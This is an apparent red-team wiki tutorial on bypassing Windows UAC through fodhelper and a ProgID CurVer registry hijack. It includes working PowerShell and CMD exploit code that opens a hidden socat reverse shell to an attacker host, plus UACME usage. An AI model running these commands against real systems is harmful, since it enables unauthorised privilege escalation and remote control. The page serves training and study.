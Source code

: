 ```yaml
---
description: 'MITRE ATT&CK™ Impair Defenses: Disable or Modify Tools - Technique T1562.001'
---
```


# UAC bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default..

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs\
The following 4 ILs are used by Windows, ordered from lowest to highest:

| Integrity Level | Use                                                |
| --------------- | -------------------------------------------------- |
| Low             | Very limited permissions                           |
| Medium          | users and Administrators' filtered tokens.         |
| High            | Administrators' elevated tokens if UAC is enabled. |
| System          | Reserved for system use.                           |

### AutoElevate

some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:\
\- The executable must be signed by the Windows Publisher\
\- The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/\
\- Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.

Indeed we can leverage this executables to bypass UAC. Let's dive in:

{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID and AutoElevate binary to bypass UAC

we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

```bash
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

{% hint style="danger" %}
Detected by Windowds Defender
{% endhint %}
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe

```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
{% endtab %}
{% endtabs %}

### Automated Exploitation

{% tabs %}
{% tab title="UACME" %}
While [UACME](https://github.com/hfiref0x/UACME) provides several tools, we will focus mainly on the one called **Akagi**, which runs the actual UAC bypasses\
If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
C:\tools>UACME-Akagi64.exe 33
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/bypassinguac" %}

{% embed url="https://github.com/hfiref0x/UACME" %}

{% embed url="https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses" %}
